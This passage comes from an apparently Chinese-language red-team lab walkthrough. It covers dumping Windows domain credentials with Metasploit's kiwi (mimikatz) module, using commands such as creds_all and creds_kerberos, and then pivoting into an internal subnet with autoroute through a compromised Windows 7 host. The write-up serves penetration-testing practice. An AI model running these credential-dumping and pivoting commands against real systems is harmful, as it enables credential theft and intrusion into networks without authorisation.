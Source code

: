 > 用户哈希数据的输出格式为：
>
> ```shell
> 用户名:SID:LM哈希:NTLM哈希:::
> ```

![image-20231117160104658](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117160104658.png)

这是因为当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，密码字段显示为null，需要修改注册表等用户重新登录后才能成功抓取。

[MSF使用_MSF中kiwi(mimikatz)模块的使用](http://t.csdnimg.cn/BVX4w)

尝试抓取域内的账号密码：利用 msf 的 kiwi 模块

```bash
load kiwi #加载kiwi模块
help kiwi #查看kiwi模块的使用
```

注意执行需要system权限

```bash
creds_all         #列举所有凭据
creds_kerberos    #列举域内账号密码
```

### 横向移动

为了让 msf 能访问内网的其他主机，即 52 网段的攻击流量都通过已渗透的这台目标主机（Windows7）的meterpreter会话来传递，需要建立socks反向代理。

> 注：添加路由一定要在挂代理之前，因为代理需要用到路由功能

#### 添加路由、挂上Socks4a代理

使用 msf+proxychains 搭建socks4a隧道，**设置内网路由**

```
run autoroute -s 192.168.52.0/24  # 添加内网的路由
run autoroute -p  # 查看路由
```
